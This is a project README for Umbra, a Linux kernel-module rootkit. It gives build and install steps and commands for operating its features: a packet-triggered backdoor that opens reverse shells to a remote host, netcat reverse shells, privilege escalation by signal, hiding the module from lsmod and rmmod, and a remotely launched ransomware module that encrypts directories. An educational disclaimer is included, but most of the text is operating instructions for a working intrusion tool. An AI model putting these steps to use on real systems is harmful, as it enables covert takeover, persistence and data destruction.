

# Umbra 

Umbra is an experimental remotely controllable LKM rootkit for kernels 4.x and 5.x (up to 5.7) which opens a network backdoor that can spawn reverse shells to remote hosts, launch malware remotely and much more. 

The rootkit is still under development, although the features listed below are already fully operational.


Note: This rootkit has been developed and tested using kernel 5.4.0 and Ubuntu 18.04.

## Features
* :star2: Backdoor which spawns reverse shell to remote IP after receiving a malicious TCP packet.
* :star2: Use the *Umbra Injector* to control the rootkit remotely:
  * Remote reverse shell.
  * Hide/unhide rootkit remotely.
  * Launch *Umbra Modules*.
    


* **NEW**: Added the ***Umbra Modules***, special malware-like modules which enhance Umbra and can be launched remotely by the Umbra Injector.
* **NEW**: Umbra module "***Ransom***" which turns Umbra into a remotely controllable ransomware.
* Umbra hides all its files and directories from user commands such as *ls*.
* Umbra can hide/unhide itself remotely and locally via signals.
* Privilege escalation by sending signal 50.
* Spawn netcat reverse shell on module load.
* Spawn netcat reverse shell to a remote host by sending signal 51.

More functionalities will come in later updates.

## Disclaimer
This rookit is **purely for educational purposes**. I am not responsible for any damage resulting from its unintended use.

Also bear in mind that Umbra only incorporates light hiding and protection mechanisms. It is **not** intended to be used on a real scenario.

**IMPORTANT:** If you are going to test this rootkit in your own machine, I *strongly recommend* to use a VM. 

**About the Umbra Modules:** The *ransom* module uses a trivial encryption mechanism but it can and will certainly encrypt any folder in your machine. Although files can be decrypted, I *definitely do not recommend* running this towards your root folder or similar unless on a controlled environment.

## Table of Contents
1. [Build and Install](#build-and-install)
2. [Unloading Umbra](#unloading-umbra)
3. [Local Control](#basic-usage-local-control)
4. [Remote Control](#umbra-injector-remote-control)
5. [Umbra Modules](#umbra-modules)
   * [(NEW) Ransom](#ransom-module)
6. [References](#references)

## Build and install
Remember that you should have a 4.x or 5.x kernel available.
1. Download your kernel header files
```sh
apt install linux-headers-$(uname -r)
```
2. Configure your include path to cover the kernel header directory (usually under /usr/src). If you are using vscode, you can check ```.vscode/c_cpp_properties.json``` for an example on which directories to include.

3. Clone the project
```
git clone https://github.com/h3xduck/Umbra.git
cd Umbra
```
4. Build Umbra
```
make
```
5. Load Umbra in the kernel
```
sudo insmod ./umbra.ko
```

## Unloading Umbra
```
sudo rmmod umbra
```

## Basic Usage: Local control
### Change current user privileges to root
* Send signal 50 to any PID.
```
kill -50 1
```

### Start reverse netcat shell to IP:PORT
* Set your desired IP and port in CONFIG.H before building the rootkit. By default 127.0.0.1:5888

* Start listening at the remote host.
```
nc -lvp 5888
```
* Send signal 51 to any PID. Umbra will catch it and start the shell.
```
kill -51 1
```


Note: Umbra also tries to start the reverse shell on load.

### Spawn reverse shell via backdoor
Any host can get a reverse shell by sending a specially-crafted packet to a machine infected with Umbra. The backdoor will try to open the shell on IP:5888, where IP is the IP address of the attacking machine.

The backdoor listens for packets with the following payload:
`UMBRA_PAYLOAD_GET_REVERSE_SHELL`
, but I also provide a client which will do the job for you. You can download the client from [latest releases](https://github.com/h3xduck/Umbra/releases/), or you can build your own using my library [RawTCP](https://github.com/h3xduck/RawTCP_Lib).

### Hide the rootkit - Invisible mode
This will prevent the rootkit from being shown by commands such as *lsmod*, or being removed via *rmmod*.
```
kill -52 1
```

### Unhide the rootkit
This reverts the invisible mode if active.
```
kill -53 1
```

## Umbra Injector: Remote control
### Get reverse shell
The program can be run either before Umbra is installed (thus waiting until it is), or after Umbra is installed on the target system.
```
./injector -S 127.0.0.1
```

### Hide the rootkit remotely - Invisible mode
This will prevent the rootkit from being shown by commands such as *lsmod*, or being removed via *rmmod*.
```
./injector -i 127.0.0.1
```

### ¡Unhide the rootkit remotely
This reverts the invisible mode if active.
```
./client -u 127.0.0.1
```

### Help
You can see the full information on how to run the client by:
```
./injector -h
```

## Umbra Modules
### Ransom module
This module can launch remote ransomware-like attacks via the Umbra Injector. Encrypted files appear with the *.ubr* extension.

Currently the encryption mechanism is a simple bit-level NOP, as a proof of concept. You may edit the module to include your own encryption algorithm.
#### Encrypt a directory and all its sub-directories
```
./injector -p /Your/Path/To/Encrypt -e 127.0.0.1
```

#### Decrypt a directory and all its sub-directories
```
./injector -p /Your/Path/To/Decrypt -d 127.0.0.1
```

## References
The development of this rootkit involved a substantial amount of research about LKMs and rootkit techniques. The following is an incomplete list of the resources I used:
How to create LKMs:
* https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html

Linux syscall reference:
* https://syscalls64.paolostivanin.com/

Some rootkit references:
* https://xcellerator.github.io/posts/
* https://web.archive.org/web/20160620231623/http://big-daddy.fr/repository/Documentation/Hacking/Security/Malware/Rootkits/writing-rootkit.txt
* https://github.com/f0rb1dd3n/Reptile

## License
This project is licensed under the GPLv2 license. See [LICENSE](https://github.com/h3xduck/Umbra/blob/master/LICENSE)
